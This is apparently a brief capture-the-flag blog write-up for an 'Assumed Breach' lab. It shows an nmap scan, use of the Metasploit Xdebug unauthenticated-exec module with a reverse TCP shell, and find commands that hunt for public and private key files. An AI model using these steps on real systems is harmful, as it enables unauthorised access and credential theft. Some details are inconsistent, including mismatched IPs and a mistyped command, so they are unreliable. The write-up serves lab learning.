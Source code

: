```yaml
---
layout: post
title:  "CTFLive - Assumed Breach"
postid: blog
categories: CTFLive
---
```


<br />

# Hunting Artifacts
Kali IP: 192.117.250.2
Target IP: 192.117.250.3

# Nmap Scan
nmap -sC -sV 192.141.136.3
80
	http-title: XODA
	Apache 2.4.7
	httponly flag not set
3306
	mysql protocol 10
OS: 5.5.47-0ubuntu04.04.1

# Vulnerability due to scan
Per Google Apache 2.4.7 has vulnerability in the eval command present in Xdebug versions 2.5.5 and below. This allows the attacker to execute arbitrary php code as the context of the web user. 
https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec

# Metasploit
> use exploit/unix/http/xdebug_unauth_exec
> show options
set RHOST and LHOST for reversetcp
> exploit

> shell
cd .
`find . -type f -name '*.pub'`
`find . -tyep f -name 'user_private'`

Public
./opt/######.pub
./tmp/######.pub
./usr/local/bin/#####.pub

Private
./usr/local/share/######
/usr/bin/###########
/var/######

**Flags were regarding names of files**